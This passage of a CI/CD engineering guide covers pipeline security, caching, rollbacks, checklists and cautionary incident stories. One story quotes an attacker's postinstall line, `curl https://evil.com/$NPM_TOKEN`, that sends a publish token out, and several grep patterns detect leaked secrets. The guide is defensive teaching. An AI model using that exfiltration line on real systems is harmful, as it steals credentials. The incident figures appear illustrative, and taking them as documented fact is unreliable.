| Deployment fails with non-deterministic error (flaky test, timeout, race condition) | Propose flaky test quarantine workflow and deployment health-check pre-warm stage | Non-deterministic failures erode pipeline trust; a single flaky test can block the entire team's velocity |
| No security scanning in pipeline (SAST/DAST/SCA) | Propose CodeQL/SonarQube/Trivy integration as blocking quality gates before deploy stage; enforce CRITICAL/HIGH severity thresholds | Unscanned code in production is a compliance and security incident waiting to happen; scanning must be a blocking gate, not an advisory dashboard |
| Container images pushed to registry without vulnerability scan or signature | Propose image signing (Cosign) + vulnerability scanning (Trivy/Grype) in registry push workflow; block deploy on CRITICAL CVEs | Container registries are the last defense line before production; every image must be attested and scanned — unsigned images are untrusted images |
| All deployments are "big bang" with no progressive delivery mechanism | Propose canary or blue-green deployment strategy with automated metric comparison and rollback trigger | Progressive delivery limits blast radius; a 5% canary catches regressions before they affect all users — no canary means every deploy is all-or-nothing |
| Feature flags managed ad-hoc without lifecycle tracking in pipeline | Propose feature flag integration in pipeline — deploy flags OFF, gradual rollout phases, automated flag-removal ticket after 30 days | Feature flags without lifecycle discipline become permanent technical debt; pipeline should enforce flag hygiene and removal cadence |
| Secrets hardcoded in pipeline YAML or environment variables as plaintext | Propose OIDC-based cloud auth + secret referencing (not value copying); enable GitHub secret scanning on pipeline output logs | Hardcoded secrets in CI configuration are the #1 source of credential leaks; OIDC eliminates static credentials entirely and provides short-lived tokens |
| Deploy stage has no rollback automation — manual SSH + `kubectl rollout undo` | Propose automated rollback pipeline: one-click trigger, smoke test verification, notify stakeholders; target < 5 minutes from trigger to stable | Manual rollback during an incident doubles MTTR; automated rollback is a reliability feature, not an admission of failure |

## Best Practices
<!-- STANDARD: 3min -- rules extracted from production experience -->
<!-- DEEP: 10+min -->
- **Pin actions by SHA digest, never by tag** — `uses: actions/checkout@11bd71901bbe5b1630ceea73d27597364c9af683 # v4.2.2`. Tags can be force-pushed.
- **Separate build and deploy workflows** — Build (read-only) runs on PR. Deploy (write) runs on merge to main. Different IAM roles, different risk profiles.
- **Artifact promotion: build once, deploy many** — Never rebuild binaries/images between environments. Immutable artifacts with SHA-tagged images.
- **Concurrency groups prevent race conditions** — `concurrency: { group: ${{ github.workflow }}-${{ github.ref }}, cancel-in-progress: true }`. Saves CI minutes and prevents stale deploys.
- **Secrets via environments + OIDC, never hardcoded** — Each environment has its own secrets. CI roles use OIDC with audience + subject restrictions. Rotate any static tokens on schedule.
- **Warm caches on schedule** — `on: schedule: cron: '0 */6 * * *'` runs dependency install to keep cache fresh for PR workflows.
- **Validate locally before pushing** — `act` for GitHub Actions, `gitlab-ci-local` for GitLab CI. Catch syntax errors before CI runtime.

## Anti-Patterns
<!-- DEEP: 5min -- each anti-pattern includes machine-detectable patterns -->

| ❌ Anti-Pattern | ✅ Do This Instead | 🔍 Detect (grep / lint) | 🛡️ Auto-Prevent |
|-----------------|---------------------|--------------------------|-------------------|
| Using `:latest` tags for deployment images — every deploy ships a mystery artifact | Tag images with commit SHA (`${{ github.sha }}`); promote immutable artifacts through environments; build once, deploy many | `grep -rn "image:.*:latest\b" .github/workflows/` → finds mutable tags in pipeline config | `actionlint` rule + pre-commit hook that blocks `:latest` in workflow files |
| `continue-on-error: true` on test or scan steps to "unblock" a stuck pipeline | Fix failing tests or quarantine flaky ones in a separate non-blocking workflow; never silence test failures | `grep -rn "continue-on-error:\s*true" .github/workflows/` → finds silently swallowed failures | `actionlint` rule banning `continue-on-error: true`; CI check that fails the build if detected |
| Single monolithic pipeline with 25+ sequential stages — 45-minute feedback loop | Split into independent workflows: lint + test (on PR), build + scan (on merge to main), deploy (on release tag) | `grep -rn "needs:" .github/workflows/ \| wc -l` → > 15 dependency edges indicates over-sequential pipeline | Pipeline template validator: if stage count > 15 AND parallelism < 3, block and require refactor |
| Secrets stored as repository-level variables (plaintext) instead of CI secrets manager | Use CI secrets manager with environment-scoped secrets + OIDC for cloud authentication | `grep -rnE "(password\|secret\|token\|key)\s*:\s*['\"]?\w{8,}" .github/workflows/` → finds hardcoded secrets | `trufflehog` / `gitleaks` pre-commit hook + CI scan blocking plaintext secrets |
| Pipeline deploys from feature branch directly to production with no staging gate | Enforce branch protection: only `main`/`release/*` deploy to production; all deploys go through staging with automated smoke tests | `grep -rn "branches:.*feature" .github/workflows/` AND same file contains `environment: production` → finds direct feature→prod path | GitHub branch protection rule + required environments with approval gate |
| Hardcoded environment URLs, credentials, and configuration baked into pipeline YAML | Extract environment configuration to deployment environments with variable substitution; use environment protection rules | `grep -rnE "https?://(staging\|prod\|dev)\." .github/workflows/` → finds hardcoded env URLs | `actionlint` rule + pre-commit check for hardcoded URLs in workflow files |
| No pipeline observability — DORA metrics unknown, lead time a mystery, failure rate guessed | Instrument pipeline with DORA metrics: deployment frequency, lead time for changes, change failure rate, MTTR | `grep -rn "deployment_frequency\|lead_time\|MTTR\|change_failure_rate" .github/workflows/` → returns zero matches = no DORA instrumentation | Pipeline template that auto-injects DORA metric collection; CI check that warns on missing instrumentation |
| Manual approval gates without timeout or escalation — deployment blocked for days waiting for one person | Auto-approve after 4-hour timeout with fallback to secondary approver; deploy window SLA prevents indefinite blocking | `grep -rn "environment: production" .github/workflows/` → check if approval timeout/fallback configured in environment settings | Environment protection rule with required reviewers + 4-hour auto-approve fallback enforced at repo level |

## Scale Depth: Solo → Small → Medium → Enterprise

### Solo (1 person, 0-100 users)
- **What changes**: CI/CD = `git push` to Vercel/Netlify/Railway. No pipeline definition needed. Deploy on push to main. Rollback = `git revert` + push.
- **What to skip**: Custom CI pipeline. Test stages. Build caching. Environment promotion. Secrets management. Preview deployments. Artifact management.
- **Coordination**: You push, platform deploys. Done.

### Small Team (2-10 people, 100-10K users)
- **What changes**: GitHub Actions or GitLab CI. Stages: lint → test → build → deploy. Caching for dependencies. Environment separation (staging + production). Secrets via CI secrets manager. Preview deployments per PR. Notifications on failure.
- **What to skip**: Matrix builds. Blue-green/canary deployments. Progressive delivery. SLSA provenance. SBOM generation. Multi-cloud pipelines.
- **Coordination**: Pipeline changes reviewed in PR. Deploy announcements in Slack. Weekly pipeline health check.

### Medium Team (10-50 people, 10K-1M users)
- **What changes**: Full pipeline: lint → test → build → scan → deploy → verify. Matrix builds for multi-platform. Blue-green or canary deployments. Security scanning (SAST + dependency + container). Path filters in monorepo. Environment promotion (dev → staging → prod). Artifact promotion (build once, deploy many). Concurrency groups.
- **What to skip**: Multi-cloud pipelines. Progressive delivery (canary analysis automated). Full SLSA Level 3. SBOM for every build.
- **Coordination**: Pipeline team or DevOps owner. Bi-weekly pipeline review. Deploy calendar for coordinated releases.

### Enterprise (50+ people, 1M+ users)
- **What changes**: Pipeline platform team. Self-service pipeline templates. Multi-cloud deployment pipelines. Progressive delivery with automated rollback. Full security gates (SAST + DAST + SCA + IAC scan + image scan). SLSA Level 3 provenance. SBOM generation. Compliance gates (SOC 2, PCI DSS). Pipeline metrics (DORA: deployment frequency, lead time, change failure rate, MTTR). Pipeline cost optimization.
- **What's full production**: Internal developer platform. Pipeline catalog. Automated canary analysis. Deployment analytics. Pipeline as product.
- **Coordination**: Pipeline platform team weekly. Monthly pipeline review board. Quarterly DORA metrics review.

### Transition Triggers
- **Solo → Small**: Second developer. Need automated tests before deploy.
- **Small → Medium**: 3+ teams. Deploy coordination overhead. First security incident from deployed code.
- **Medium → Enterprise**: 10+ teams. Compliance requirements. >50 deploys/day.


## Error Decoder
<!-- DEEP: 5min -- each entry includes a console-string matcher for automatic recovery loops -->

| 🖥️ Console Match (grep pattern) | Symptom | Root Cause | Fix | 🔄 Auto-Recovery Loop |
|---|---|---|---|---|
| `grep -rn "exit code 0" .github/workflows/ && grep -rn "continue-on-error:\s*true" .github/workflows/` | Pipeline shows green — production deploy contained broken code | Test runner exited 0 despite failures because `continue-on-error: true` was set during debugging and never reverted | Never use `continue-on-error` in CI pipelines. If a step must be non-blocking, split into a separate workflow or use `if: always()` with explicit pass/fail reporting | 1. `grep -rn "continue-on-error:\s*true" .github/workflows/` 2. Remove directive 3. Run the workflow 4. Fix any newly-surfaced failures |
| `grep -rn "image:.*:latest" .github/workflows/ && gh run list --limit 5 --json conclusion` shows `failure` | Deployment pushed stale Docker image — 3-day-old code with known bug | Docker image tagged `:latest` and cached by CI; build skipped because cache key didn't include commit SHA | Tag images with commit SHA (`${{ github.sha }}`); invalidate cache on every new commit — cache key must include commit SHA or git ref | 1. `grep -rn "image:.*:latest"` to find mutable tags 2. Replace with `${{ github.sha }}` 3. Add cache key with SHA 4. Rebuild and verify digest |
| `grep -rnE "(SECRET\|TOKEN\|PASSWORD\|KEY)" ci-output.log 2>/dev/null \| head -5` returns matches | API keys leaked in CI build logs — exposed on public repo | Secrets passed as env vars and a test step printed all env vars as debugging output | Config secret masking in CI platform; run `trufflehog`/`gitleaks` in pipeline; never log environment variables — use structured logging with explicit allowlist | 1. `trufflehog filesystem .` to find all secrets 2. Rotate exposed credentials immediately 3. Add secret scanning to CI pipeline 4. Configure secret masking in CI platform |
| `grep -rn "canaryWeight: 100\|stableWeight: 0" k8s/` | Canary deployment rolled back — metric analysis showed no difference because canary never received traffic | Ingress traffic splitting used cookie-based routing but canary test script didn't include the routing cookie; all traffic went to stable | Verify canary traffic isolation before comparing metrics; inject synthetic canary user with known routing cookie; add canary-health-check endpoint returning service version | 1. Add canary-health-check endpoint 2. Inject synthetic user with routing cookie 3. Verify traffic reaches canary 4. Re-run canary analysis |
| `grep -rn "cache-key\|restore-keys" .github/workflows/` returns zero matches AND `gh run list --limit 10 --json duration` shows > 15 min average | Pipeline takes 45+ minutes — developers start skipping CI locally | Dependency caching disabled; every build redownloads from scratch; no test sharding | Implement dependency caching with lockfile-hash keys; shard tests across parallel jobs; use Docker layer caching for image builds; target < 15 minutes | 1. Add `actions/cache` with `hashFiles('package-lock.json')` key 2. Add `restore-keys` fallback 3. Shard tests with `matrix` 4. Measure pipeline duration drop |


## What Good Looks Like

> Pipelines run reliably on every commit, complete in under fifteen minutes, and provide clear, actionable feedback. Builds are reproducible and hermetic — the same commit always produces the same artifact. Artifacts are immutable and promoted through environments with zero manual steps. The pipeline enforces quality gates at every stage and blocks deployment on failure. Developers trust the pipeline implicitly: a green build means "ready to ship," and a red build tells them exactly what to fix, where, and why.

## Production Checklist
<!-- QUICK: 30s -- binary pass/fail items. Each has a mechanical validation command. -->

| ID | Checklist Item | Validation Command | Auto-Fix |
|----|---------------|-------------------|----------|
| **[S1]** | Pipeline stages defined: lint → test → build → scan → deploy → verify | `gh workflow list --json name \| jq '.[].name' \| grep -cE "lint\|test\|build\|scan\|deploy\|verify"` → ≥ 5 | Generate pipeline template with all 6 stages |
| **[S2]** | Fan-in/fan-out used for parallel execution where beneficial | `grep -rn "needs:" .github/workflows/ \| wc -l` → ≥ 3 AND `grep -rn "strategy.*matrix" .github/workflows/ \| wc -l` → ≥ 1 | Convert sequential jobs to parallel dependency graph |
| **[S3]** | Path filters skip irrelevant workflows in monorepo | `grep -rn "paths:" .github/workflows/ \| wc -l` → ≥ 1 OR project is not a monorepo | Add `paths:` filters to each workflow |
| **[S4]** | Concurrency groups cancel redundant PR runs | `grep -rn "concurrency:" .github/workflows/ \| wc -l` → ≥ 1 | Add `concurrency: ci-${{ github.ref }}` to workflows |
| **[S5]** | All third-party actions pinned to full-length commit SHA | `grep -rnE "uses:\s+[^@]+@v[0-9]" .github/workflows/ \| wc -l` → 0 | Use `actionlint` to auto-pin actions to SHA |
| **[S6]** | OIDC federation for cloud authentication | `grep -rn "id-token:\s*write" .github/workflows/ \| wc -l` → ≥ 1 OR no cloud deploy in pipeline | Add OIDC permissions + configure cloud provider trust |
| **[S7]** | Environment protection rules on production | `gh api repos/:owner/:repo/environments/production --jq '.protection_rules'` → non-empty | Add required reviewers + branch restriction via `gh api` |
| **[S8]** | Secrets scoped per environment; never shared across environments | `gh secret list --env production \| wc -l` → ≥ 1 AND no plaintext secrets in workflow files | Move shared secrets to environment-scoped secrets |
| **[S9]** | SLSA provenance generated for all releases | `grep -rn "slsa-github-generator\|SLSA" .github/workflows/ \| wc -l` → ≥ 1 | Add `slsa-github-generator/.github/workflows/generator_generic_slsa3.yml` |
| **[S10]** | SBOM (SPDX/CycloneDX) generated and attached to releases | `grep -rn "spdx\|cyclonedx\|sbom" .github/workflows/ \| wc -l` → ≥ 1 | Add `anchore/sbom-action` to release workflow |
| **[S11]** | Signed commits enforced via branch protection | `gh api repos/:owner/:repo/branches/main/protection/required_signatures --jq '.enabled'` → `true` | Enable via `gh api --method POST` |
| **[S12]** | Dependency caching with lockfile-hash keys | `grep -rn "actions/cache\|cache-" .github/workflows/ \| wc -l` → ≥ 1 | Add `actions/cache@<sha>` with `restore-keys` fallback |
| **[S13]** | Docker BuildKit with registry cache backend | `grep -rn "cache-from\|cache-to.*type=registry" .github/workflows/ \| wc -l` → ≥ 1 | Add `cache-from: type=gha` and `cache-to: type=gha,mode=max` |
| **[S14]** | Test sharding for suites > 5 minutes | `grep -rn "matrix\|shard\|split" .github/workflows/ \| wc -l` → ≥ 1 | Add `strategy.matrix.shard` with `jest --shard` |
| **[S15]** | Automated rollback tested: health check failure → revert to previous | `grep -rn "rollback\|revert\|rollback" .github/workflows/ \| wc -l` → ≥ 1 | Add rollback step using previous deployment tag/commit |

## Footguns
<!-- DEEP: 10+min — war stories from production CI/CD pipelines -->

| Footgun | What Happened | Root Cause | How to Prevent |
|---------|---------------|------------|----------------|
| Self-hosted GitHub Actions runner leaked AWS credentials from `.env` file into public repo's CI logs — 1,200 VMs mining crypto by morning | A developer added `ACTIONS_RUNNER_DEBUG=true` to debug a failing workflow. The debug flag printed every environment variable — including `AWS_ACCESS_KEY_ID` and `AWS_SECRET_ACCESS_KEY` — into the workflow logs of a public repository. Within 4 hours, scrapers detected the credentials and spun up GPU instances in 7 regions. The $84,000 bill arrived before the security team finished their morning coffee. The runner was shared across 15 repositories with IAM Admin access. | Self-hosted runners preserve environment variables across workflow runs. The org's runner setup script loaded credentials into `/etc/environment` instead of using OIDC. Debug logging was globally enabled via org-level secret. | **Use GitHub Actions OIDC for cloud authentication — never store long-lived credentials on runners.** Ephemeral runners (`--ephemeral` flag) destroy themselves after each job, preventing credential persistence. Block debug logging at the org level for public repos: `actions:debug-logging: false` in org settings. Monitor workflow logs for credential patterns with a regex pre-receive hook or a scheduled log scan. |
| Flaky end-to-end test passed on retry 3 — deployed code that corrupted 47,000 payment records over the weekend | A payment service PR had an intermittent race condition that failed 2/10 e2e test runs. The CI pipeline was configured with `retries: 3` on the e2e job. It passed on the third retry, and the merge was auto-approved by a GitHub Actions bot that only checked the final green checkmark. The race condition was real — under production concurrency of 800 TPS, it timestamped transactions with `0000-00-00`, corrupting 47,000 records before the Monday morning batch reconciliation failed. | The retry policy treated "eventual success" the same as "reliable success." The bot only looked at the final job status, not the retry history. Flaky tests were a known problem but were tracked in a backlog, not blocked. | **Quarantine flaky tests immediately — don't let them gate deployments.** Use a flaky test dashboard (e.g., BuildPulse, Test Analytics in Datadog CI) that tracks per-test pass rates over the last 50 runs. Any test below 98% reliability gets moved to a quarantine suite that doesn't block deploys. Require `retries: 0` on the gating check that controls merge — if a test needs retries, it's not reliable enough to gate production. |
| Monorepo pipeline change added `paths-ignore` that skipped 600 required checks — 3 days of broken deploys | A platform team engineer refactored the monorepo workflow triggers to reduce wasted CI minutes. They added `paths-ignore: ['docs/**', '*.md']` to 40 workflow files using a script. The script accidentally matched `paths-ignore` on a workflow that contained critical infrastructure-as-code in a directory named `docs-infra/`. For 3 days, Terraform changes to production networking merged with zero CI checks — no plan, no lint, no apply. A CIDR change broke cross-region VPC peering, and nobody knew why because the CI history was green. | The `paths-ignore` pattern was too broad and the script didn't differentiate between documentation and directories with `docs` in the name. No validation step verified that all required checks still ran after the change. | **Never use bulk find-and-replace on CI workflow triggers.** Use `paths` with explicit include patterns instead of `paths-ignore` whenever possible. Add a CI validation gate: a required check that verifies all other required checks actually ran. GitHub branch protection has "Require status checks to pass before merging" — but nobody verified the list of required checks after the refactor. Run `gh pr checks --required` as part of the CI change PR itself. |
| Artifact cache poisoned with a stale build — 48 services deployed a 96-hour-old artifact with a reverted security patch | A build pipeline cached a Docker layer containing a base image with a critical `libcurl` CVE. The cache key was `hashFiles('Dockerfile')` — the Dockerfile hadn't changed in 4 days, so the cache hit on every build. In the meantime, the base image was patched upstream. Every service that rebuilt during those 4 days got the cached, vulnerable layer. The security team verified the CVE was patched by checking the latest base image digest. Nobody checked what was actually running in production until a penetration test flagged it. | Cache key strategy was based on file content, not on image digest pinning. The Dockerfile didn't pin the base image by SHA256 digest — it used `FROM python:3.11-slim`, which is mutable. | **Pin base images by SHA256 digest: `FROM python:3.11-slim@sha256:abc123...`.** Add a scheduled CI job that rebuilds all images weekly with `--no-cache` and runs Trivy/Grype scans on the result. Use `cache-to`/`cache-from` with mode=max and include the base image digest in the cache key: `key: ${{ runner.os }}-docker-${{ hashFiles('Dockerfile') }}-${{ hashFiles('base-image-digest.txt') }}`. |
| GitHub Actions `pull_request_target` event granted write access to a forked PR — attacker exfiltrated all repository secrets | An open-source project used `pull_request_target` in a workflow that checked out the PR code and ran `npm install && npm test`. The `pull_request_target` event runs in the context of the base repository with full secret access. A malicious contributor submitted a PR that injected `curl https://evil.com/$NPM_TOKEN` into a `postinstall` script. All repository secrets — NPM publish token, Docker Hub credentials, Slack webhook — were exfiltrated in seconds. The npm package was replaced with a crypto stealer within 30 minutes. | `pull_request_target` + `actions/checkout` of untrusted PR code = full secret compromise. The developer didn't understand that `pull_request_target` runs with repo-level permissions, unlike `pull_request`. | **Never checkout PR code in `pull_request_target` workflows.** If you must use `pull_request_target` (e.g., for labeling or commenting), only run trusted actions from the base branch — never execute code from the PR. Use `pull_request` for CI, which runs in a restricted context. Require approval for first-time contributors. Use GitHub's "Require approval for fork PR workflows" setting in Actions > General. |

## Calibration — How to Know Your Level
<!-- STANDARD: 3min — honest self-assessment rubric -->

| You Know You're Stuck at L1 When... | You Know You've Reached L2 When... | You Know You're L3 When... |
|---|---|---|
| You copy-paste workflow YAML from Stack Overflow and tweak it until it turns green — you don't know what `actions/checkout@v4` actually does | Every merge triggers a deterministic, reproducible CI pipeline. You know the difference between `pull_request` and `pull_request_target` and can explain why one is dangerous without looking it up | You've reduced the organization's CI cost per deploy by 60%+ through caching, matrix optimization, and selective test execution — and you have the dashboard to prove it |
| You resolve "build failed" by clicking "Re-run all jobs" — you've never looked at the logs of a failed retry to understand why it failed the first time | You've implemented flaky test quarantining, and your team's flaky test rate dropped below 2%. Failed builds are always real failures | You designed a CI system where the mean time from push to deploy decision is under 4 minutes for a monorepo with 300+ services — only changed services are tested and built |
| You've never audited who has access to repository secrets or what permissions your workflows actually use | Every workflow has a minimal permissions block: `permissions { contents: read }`. You review workflow permissions in every PR like you review code | You've built a supply chain attestation pipeline: every artifact is signed with Sigstore/cosign, has a verifiable SLSA Level 3 provenance, and passes policy checks in an admission controller before deployment |

**The Litmus Test:** Can you receive a PR from an untrusted fork, run its tests safely, and deploy it to production — all automated with SLSA Level 3 provenance — with zero human access to secrets or cloud credentials? Can you prove the artifact running in production is bit-for-bit identical to what was built in CI?

## Deliberate Practice

CI/CD mastery comes from building and optimizing pipelines, then observing where they break. The best pipeline engineers have broken pipelines in every possible way.



| Level | Practice Routine | Frequency |
|---|---|---|
| **Novice** | Build a CI/CD pipeline from scratch for a side project — not from a template | Weekly |
| **Competent** | Optimize your slowest pipeline step: profile it, cache it, parallelize it | Monthly |
| **Expert** | Break your own pipeline: inject a malicious dependency, simulate a secret leak, corrupt a cache | Quarterly |
| **Master** | Design a pipeline architecture that becomes the org-wide standard — publish it, defend it, evolve it | Annually |

**The One Highest-Leverage Activity**: Measure your DORA metrics every week. If you don't know your deployment frequency, lead time, change failure rate, and MTTR, you don't know if your CI/CD investment is working. What gets measured gets improved.

## References
<!-- QUICK: 30s -- links to deeper reading -->
- GitHub Actions Security Hardening: https://docs.github.com/en/actions/security-guides/security-hardening-for-github-actions
- GitHub Actions Reusable Workflows: https://docs.github.com/en/actions/using-workflows/reusing-workflows
- SLSA Framework: https://slsa.dev/spec/v1.0/levels
- Sigstore Cosign: https://docs.sigstore.dev/cosign/overview/
- Anchore SBOM Action: https://github.com/anchore/sbom-action
- Semantic Release: https://semantic-release.gitbook.io/semantic-release
- DORA Metrics: https://cloud.google.com/blog/products/devops-sre/using-the-four-keys-to-measure-your-devops-performance
- Docker BuildKit Cache: https://docs.docker.com/build/cache/backends/gha/
- Trivy Container Scanning: https://github.com/aquasecurity/trivy
